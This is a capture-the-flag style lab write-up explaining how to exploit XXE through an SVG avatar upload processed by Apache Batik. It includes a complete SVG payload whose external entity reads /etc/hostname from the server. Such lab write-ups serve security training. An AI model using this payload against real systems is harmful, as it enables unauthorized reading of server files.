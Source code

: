 # Exploiting XXE via image file upload
# Objective
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.\
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname. 

# Solution
## Analysis
Application has a `Post comment` feature. Data from client to server is sent in `form-data` format. User can provide `avatar` image which can be `.svg` file. Server convert uploaded `.svg` file to `.png` file.

|![](Images/image-29.png)|
|:--:| 
| *Post comment request* |

## Exploitation
Attacker can inject the following XXE payload into `.svg` file:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```


|![](Images/image-30.png)|
|:--:| 
| *XXE injection into the svg image file* |
|![](Images/image-31.png)|
| *XXE injection into the svg image file - returned png image* |
